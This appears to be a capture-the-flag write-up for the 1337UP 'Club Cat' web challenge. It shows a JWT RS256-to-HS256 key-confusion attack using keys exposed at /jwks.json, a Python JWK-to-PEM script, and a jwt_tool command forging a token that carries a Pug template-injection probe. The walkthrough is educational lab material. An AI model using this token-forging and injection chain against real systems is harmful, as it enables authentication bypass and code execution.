 ## **Description**
People are always complaining that there's not enough cat pictures on the internet.. Something must be done!!
<br></br>

Reading the source code foud that JWT Rs256 keys are publicly accesable on /jwks.json route.
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/Capture.PNG">
<br></br>

So We can make a key confusion attack as descriped here
<br></br>
https://portswigger.net/web-security/jwt/algorithm-confusion

Reading more the source code found a route called /cats and there pug ssti in the username that been taken from the jwt token
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/2.PNG">
<br></br>
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs 
<br></br>
<br></br>
So After things been clear to as the attak surface will be:
1- Getting the RS256 Keys 
2- Make a key confsion attack to inject what we want in the username 
3- Pug SSti
4- get RCE and read the flag
<br></br>
<br></br>
I used a script to convert the rs256 into .pem file so i can use it with jwt_tool : 
```py
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")
```
<br></br>
Let's create an account and take the jwt token
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/3.PNG">
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/4.PNG">

<br></br>
let's use jwt_too
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{7*7}"

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7Nyo3fSJ9.lsLiuUrEkr81Z73IyAJmF7gTJfp9WwqErjPlr9e9UvI
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/6.PNG">

